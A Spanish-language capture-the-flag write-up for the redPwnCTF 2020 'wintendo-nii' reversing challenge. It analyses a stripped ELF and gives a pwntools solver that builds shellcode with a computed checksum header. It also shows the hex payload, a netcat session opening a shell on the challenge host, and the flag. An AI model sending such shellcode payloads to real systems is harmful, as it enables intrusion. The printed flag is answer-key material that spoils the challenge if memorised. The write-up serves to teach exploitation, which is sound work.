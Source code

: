 # wintendo-nii-reversing redPwnCTF writeup

Reto de la categoria de reversing de redPwnCTF

## File recognition
Observamos que es un ELF 64-bit, que  seguramente es el que se ejecuta en el servicio __2020.redpwnc.tf:31215__

Al observar los stirngs vemos que hay 5 que nos llaman la atencion, al parecer son nombree de juegos

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# file nii
nii: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8def7e412da3017e4dd7fcf2c2d6ad0ac37ba8e4, stripped

root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# strings nii
4%d @
%b @
NIIv0.1:H9
TwltPrncH9F
MaroCartH9F
Fitnes++H9F
AmnlXingH9F
%b @
%b @
4%d @
%b @
int main(){puts(flag);}
.shstrtab
.note.gnu.build-id
.text
.data
```

Al correr el programa vemos que nos pide un input y nos muestra uno simbolos chinos que traducidos dicen "En 2020, Wentian Software Company-Todos los derechos reservados.
Por favor inserte el disco del juego", intenamos con un nombre de los juegos que encontramos enlos strings y nada sucede.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# ./nii
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
MaroCart
```

## Analysis

Procedemos a desensamblar el binario en IDa 7.0, al ser un binario stripped no tiene simbolos por lo que nos es un poco mas dificil encontrar el main, sin embargo encontramos el entry_point del programa y empezaremos por ahi.

Vemos las lineas donde el programa recibe el input y lo manda a una funcion que despues de analizar el codigo es una validacion de que sean numeros hexadecimales de los strings que vimos previamente.

Por lo tanto vemos que el input es una codificacion hexadecimal de la version de la "consola" __NIIv0.1:__ concatenado con el nombre de algun juego, lo que quedaria asi __NIIv0.1:MaroCart__

Vemos aqui los pedazos de codigo.

![alt text][img1]
[img1]: https://github.com/mal4f4ma/CTFsGames/blob/master/2020/redPwnCTF/rev/nii/img/ida_1.JPG

![alt text][img2]
[img2]: https://github.com/mal4f4ma/CTFsGames/blob/master/2020/redPwnCTF/rev/nii/img/ida_2.JPG


Despues de pasar esas validaciones hace una operacion mas y posteriormente procede a ejecutar parte del input que va despues del string de la consola y el juego, lo que nos da una idea que a lo mejor el tenemos que pasar un shellcode.

Analizando mas a fondo vemos que es un header del mismo codifo que le estamos pasando, en caso de no ser este la ejecucion temrina.

![alt text][img3]
[img3]: https://github.com/mal4f4ma/CTFsGames/blob/master/2020/redPwnCTF/rev/nii/img/ida_3.JPG

![alt text][img4]
[img4]: https://github.com/mal4f4ma/CTFsGames/blob/master/2020/redPwnCTF/rev/nii/img/ida_.JPG

## Solution

Despues de analizar todo el coodigo vamos a hacer el el solver para la solucion de este problema, vamos a codificar la operacion del header para que nos de el header del shellcode que enviaremos que en este caso nos regresara una shell

```python
#!/usr/bin/python3
#Author: n0tM4l4f4m4
#Title: solver.py

import struct
import codecs
import binascii
from pwn import *

context.arch = "x86_64"
context.endian  = "little"

str_v = 'NIIv0.1:'
game_1 = 'TwltPrnc'
game_2 = 'MaroCart'
game_3 = 'Fitnes++'
game_4 = 'AmnlXing'

shell_ = asm(shellcraft.sh())

checksum = 0

for val in shell_:
    # print(val)
    v7 = val
    # v7 = ord(val)
    for val2 in range(7, -1, -1):
        if checksum >= 0x80000000:
            v10  = 0x80000011
            pass
        else:
            v10 = 0
            pass
        pass
        v12 = 2 * checksum
        v12 = (v12 & 0xffffff00) | (((v7 >> val2) & 1 ^ v12) & 0xff)
        checksum = v10 ^ v12
    pass

header = struct.pack("<L", checksum)

# print(str_v, game_4, header, shell_)
print(binascii.hexlify(bytes(str_v, 'utf-8') + bytes(game_4, 'utf-8') + header + shell_).upper())
```
Ejecutamos el script para que nos de el payload de los que vamos a meter al binario

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# python3 solver.py
b'4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05'
```
Nos vamos a conectar al servico __2020.redpwnc.tf:31215__ por netcat y paseremos el payload que el script nos dio.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii

```

Vemos que efectivamente nos devolvio una shell y al usar el comando __ls__ nos devuelve ls lista de archivos donde viene la flag.text

Usaremos el comando __cat__ para leer la flag

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii
cat flag.txt
It's dangerous to go alone. Take this!
flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}
```

## Flag
__flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}__
